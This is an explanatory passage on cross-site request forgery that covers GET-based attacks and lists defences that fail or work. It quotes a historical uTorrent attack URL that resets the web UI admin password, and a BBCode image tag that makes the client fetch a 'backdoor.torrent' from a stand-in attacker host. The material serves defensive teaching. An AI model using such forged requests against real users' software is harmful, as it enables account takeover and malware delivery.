 Change uTorrent administrator password
``http://localhost:8080/gui/?action=setsetting&s=webui.password&v=eviladmin``

These specific attacks were launched by placing malicious, automatic-action HTML image elements on forums and email spam, so that browsers visiting these pages would open them automatically, without much user action. People running vulnerable uTorrent version at the same time as opening these pages were susceptible to the attack.

An example in BBCode typically found on forums (where you can't normally post javascript):
``[img]http://localhost:8080/gui/?action=add-url&amp;s=http://evil.example.com/backdoor.torrent[/img]``

At risk are web applications that perform actions based on input from trusted and authenticated users without requiring the user to authorize the specific action. A user who is authenticated by a cookie saved in the user's web browser could unknowingly send an HTTP request to a site that trusts the user and thereby causes an unwanted action.

#### GET
In HTTP GET the CSRF exploitation is trivial, using methods described above, such as a simple hyperlink containing manipulated parameters and automatically loaded by a IMG tag. By the HTTP specification however, GET should be used as a safe method, that is, not significantly changing user's state in the application. Applications using GET for such operations should switch to HTTP POST or use anti-CSRF protection.

### How can you defend against them?
Prevention measures that DO NOT work:

1) Using a secret cookie
Remember that all cookies, even the secret ones, will be submitted with every request. All authentication tokens will be submitted regardless of whether or not the end-user was tricked into submitting the request. Furthermore, session identifiers are simply used by the application container to associate the request with a specific session object. The session identifier does not verify that the end-user intended to submit the request.

2) Only accepting POST requests
 There are numerous methods in which an attacker can trick a victim into submitting a forged POST request, such as a simple form hosted in an attacker's Website with hidden values. This form can be triggered automatically by JavaScript or can be triggered by the victim who thinks the form will do something else.

3) Multi-step transactions
Multi-Step transactions are not an adequate prevention of CSRF. As long as an attacker can predict or deduce each step of the completed transaction, then CSRF is possible.

4) URL rewriting: This might be seen as a useful CSRF prevention technique as the attacker cannot guess the victim's session ID. However, the user’s session ID is exposed in the URL. We don't recommend fixing one security flaw by introducing another.

5) HTTPS: does nothing to prevent against CSRF

THINGS THAT DO WORK:

Once you have verified that the request appears to be a same origin request so far, we recommend a second check as an additional precaution to really make sure. This second check can involve custom defense mechanisms using CSRF specific tokens created and verified by your application or can rely on the presence of other HTTP headers depending on the level of rigor/security you want.
